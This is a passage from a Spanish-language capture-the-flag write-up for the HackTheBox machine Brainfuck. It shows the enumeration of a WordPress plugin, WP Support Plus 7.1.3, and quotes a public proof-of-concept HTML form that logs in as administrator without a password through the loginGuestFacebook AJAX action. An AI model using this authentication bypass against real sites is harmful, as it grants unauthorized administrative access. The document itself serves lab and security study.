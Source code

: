 El directorio de plugins de la web brainfuck.htb tiene capacidad de directory listing, por lo que puedo ver las versiones y lo que hay instalado

<img src="/writeups/assets/img/Brainfuck-htb/2.png" alt="">

En las primeras líneas del README.txt, aparece la versión que coincide con el exploit examinado anteriormente

```null
=== WP Support Plus Responsive Ticket System ===
Contributors: pradeepmakone07
License: GPL v3
Tags: ticket,support,helpdesk,crm,responsive,chat,skype,email pipe,contact,faq,woocommerce
Requires at least: 4.0
Tested up to: 4.7
Stable tag: 7.1.3
```

Examino el exploit de escalada de privilegios

```null
searchploit -x php/webapps/41006.txt
```

Hay una prueba de concepto que explica como iniciar sesión como cualquier usuario sin conocer la contraseña

```null
1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```
